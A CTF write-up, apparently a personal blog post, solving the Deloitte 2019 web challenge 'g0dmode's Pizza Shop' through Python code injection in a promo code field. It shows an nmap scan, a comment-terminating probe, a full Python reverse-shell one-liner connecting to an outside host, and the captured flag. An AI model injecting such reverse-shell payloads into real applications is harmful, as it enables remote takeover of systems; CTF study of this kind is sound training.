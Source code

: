 ```yaml
---
title: Deloitte CTF Quals 2019: g0dmode's Pizza Shop 🍕
slug: deloitte-godmod-pizza
date: 06/11/2019 03
---
```


*g0dmode's Pizza Shop* 🍕 was a task labelled web and worth 300 points. It is
a standard Python command injection. I felt like it was worth way too much
points for the difficulty.

![Task Description](/assets/pizza-god/intro.png)

As always, quick nmap scan:

```
$ nmap 3.9.188.161
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:57 GMT
Nmap scan report for ec2-3-9-188-161.eu-west-2.compute.amazonaws.com (3.9.188.161)
  Host is up (0.0037s latency).
  Not shown: 990 closed ports
  PORT     STATE    SERVICE
  22/tcp   open     ssh
  25/tcp   filtered smtp
  53/tcp   filtered domain
  80/tcp   open     http
  135/tcp  filtered msrpc
  139/tcp  filtered netbios-ssn
  445/tcp  filtered microsoft-ds
  2000/tcp open     cisco-sccp
  5060/tcp open     sip
  8008/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

We have a web application on port 80:

![Web Application](/assets/pizza-god/web_app.png)

The challenge description makes it clear that we have to inject some command
into the promo code field of the order page. We can totally ignore the
account mechanism.

![Order Page](/assets/pizza-god/order.png)

Let's try with a very simple payload: a single quote `'`. We get back an error:

![Order Page](/assets/pizza-god/crash.png)

The error looks like a Python quote parsing issue. My guess is that the backend
looks something like:

```
promo_code = ord('<USER_INPUT>')
```

If my guess is correct, the payload `') #` should produce no error, as we just
complete the function call and transform the end of the line into a comment
like so:

```python
promo_code = ord('') #')
```

My guess turned to be correct. So I decided to inject some reverse shell
payload. A friend told me to take a look at
[this website](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Let's tweak their Python payload a little bit:

```python
'); import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("geographer.fr",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]); #
```

We get a root shell immediately:

![Root shell](/assets/pizza-god/root.png)

Final flag: `dctf{python_code_injection_via_unsafe_exec_call_oops1e}`.